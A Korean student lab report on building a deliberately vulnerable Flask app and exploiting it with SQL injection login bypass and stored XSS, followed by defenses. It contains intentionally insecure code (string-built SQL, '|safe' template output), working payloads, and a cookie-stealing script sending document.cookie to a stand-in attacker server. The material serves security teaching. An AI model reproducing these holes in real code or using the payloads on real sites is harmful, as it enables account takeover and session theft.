

# Web Hacking 실습 보고서

## 1. 프로젝트 개요

### 1.1 목적
본 실습은 웹 애플리케이션의 대표적인 보안 취약점인 **SQL Injection**과 **Cross-Site Scripting(XSS)**를 직접 구현하고 공격함으로써, 웹 보안의 중요성을 이해하고 안전한 코딩 방법을 학습하는 것을 목표로 합니다.

### 1.2 실습 환경
- **개발 도구**: Jupyter Notebook
- **웹 프레임워크**: Flask 2.2.2
- **데이터베이스**: SQLite3
- **언어**: Python 3.x
- **실습일**: 2025년 12월 23일

---

## 2. 시스템 구현

### 2.1 데이터베이스 설계

#### users 테이블
```sql
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT,
    password TEXT
)
```

**초기 데이터**
- admin / password123
- user1 / mypass

#### posts 테이블
```sql
CREATE TABLE posts (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    title TEXT,
    content TEXT
)
```

### 2.2 웹 애플리케이션 구조

**주요 기능**
1. 로그인 페이지 (/)
2. 로그인 처리 (/login)
3. 게시판 페이지 (/board)
4. 글 작성 (/post)

---

## 3. 취약점 구현

### 3.1 SQL Injection 취약점

#### 취약한 코드
```python
@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']
    
    # 취약한 SQL 쿼리
    query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    cursor.execute(query)
    user = cursor.fetchone()
```

#### 문제점
- 사용자 입력을 **직접 SQL 쿼리에 삽입**
- 입력값 검증 없음
- SQL 구문 조작 가능

### 3.2 XSS 취약점

#### 취약한 코드 (HTML 템플릿)
```html

    <div>
        <h4>{{ post[1] }}</h4>
        <p>{{ post[2]|safe }}</p>  <!-- |safe 필터 사용 -->
    </div>

```

#### 문제점
- `|safe` 필터로 **HTML 이스케이프 비활성화**
- 사용자 입력을 필터링 없이 출력
- JavaScript 코드 실행 가능

---

## 4. 공격 실습

### 4.1 SQL Injection 공격

#### 공격 시나리오: 로그인 우회

**입력값**
- 아이디: `admin' --`
- 비밀번호: `아무거나`

**실제 실행되는 쿼리**
```sql
SELECT * FROM users WHERE username='admin' --' AND password='아무거나'
```

**공격 원리**
1. `admin'`로 username 조건 완성
2. `--`는 SQL 주석 시작
3. 이후 모든 코드 무시 (비밀번호 검증 우회)
4. 결과적으로 `SELECT * FROM users WHERE username='admin'` 실행

**공격 결과**




**결과**: 비밀번호 없이 admin 계정 로그인 성공

### 4.2 XSS 공격

#### 공격 시나리오: 악성 스크립트 삽입

**입력값**
- 제목: `XSS 테스트`
- 내용: `<script>alert('XSS 공격 성공!')</script>`

**공격 원리**
1. 게시글 작성 시 `<script>` 태그 포함
2. 서버는 입력을 그대로 데이터베이스 저장
3. 게시판 페이지에서 `|safe` 필터로 출력
4. 브라우저가 스크립트로 인식하여 실행

**공격 결과**


**결과**: 페이지 로드 시 알림창 실행

---

## 5. 취약점 분석

### 5.1 SQL Injection의 위험성

**가능한 공격**
- 인증 우회 (로그인 해킹)
- 데이터 조회 (개인정보 유출)
- 데이터 변조/삭제
- 시스템 명령 실행 (DB 권한에 따라)

**실제 피해 사례**
- 2017년 Equifax 해킹: 1억 4천만 명 개인정보 유출
- 소니 PlayStation Network 해킹

### 5.2 XSS의 위험성

**가능한 공격**
- 쿠키/세션 탈취
- 피싱 페이지 삽입
- 키로깅
- 악성 코드 유포
- 사용자 권한으로 악의적 행동 수행

**실제 공격 예시**
```javascript
// 쿠키 탈취
<script>
document.location='http://해커서버/?cookie='+document.cookie
</script>

// 가짜 로그인 폼 삽입
<script>
document.body.innerHTML='<form action="http://해커서버/steal">...'
</script>
```

---

## 6. 방어 방법

### 6.1 SQL Injection 방어

#### 방법 1: Prepared Statement
```python
# 안전한 코드
cursor.execute(
    "SELECT * FROM users WHERE username=? AND password=?",
    (username, password)
)
```

#### 방법 2: ORM 사용
```python
# SQLAlchemy 예시
user = User.query.filter_by(username=username, password=password).first()
```

#### 방법 3: 입력 검증
```python
import re

# 특수문자 필터링
if re.search(r"[';\"--]", username):
    return "Invalid input"
```

### 6.2 XSS 방어

#### 방법 1: HTML Escape (기본)
```html
<!-- |safe 제거 -->
<p>{{ post[2] }}</p>
```

#### 방법 2: Content Security Policy
```python
@app.after_request
def set_csp(response):
    response.headers['Content-Security-Policy'] = "default-src 'self'"
    return response
```

#### 방법 3: 입력 검증 및 필터링
```python
from html import escape

content = escape(request.form['content'])
```

---

## 7. 학습 성과

### 7.1 기술적 성과
- Flask 웹 애플리케이션 개발 경험
- SQLite 데이터베이스 연동
- 웹 보안 취약점 실습

### 7.2 보안 인식 향상
- 사용자 입력을 절대 신뢰하면 안 됨
- 모든 입력은 검증/필터링 필요
- 안전한 코딩 습관의 중요성

### 7.3 실전 역량
- 취약점 식별 능력
- 공격 기법 이해
- 방어 전략 수립

---

## 8. 결론

본 실습을 통해 웹 애플리케이션의 대표적인 보안 취약점인 SQL Injection과 XSS를 직접 구현하고 공격해보았습니다. 

**핵심 교훈**
1. 사용자 입력은 항상 위험하다
2. 모든 입력은 검증되어야 한다
3. 출력 시에도 적절한 인코딩이 필요하다
4. 보안은 개발 단계부터 고려되어야 한다

실제 서비스에서는 반드시 Prepared Statement, HTML Escape, 입력 검증 등의 방어 기법을 적용해야 하며, 정기적인 보안 점검과 취약점 스캔이 필요합니다.

---

## 참고 자료

- OWASP Top 10: https://owasp.org/www-project-top-ten/
- Flask Security: https://flask.palletsprojects.com/en/latest/security/
- SQL Injection Prevention Cheat Sheet
- XSS Prevention Cheat Sheet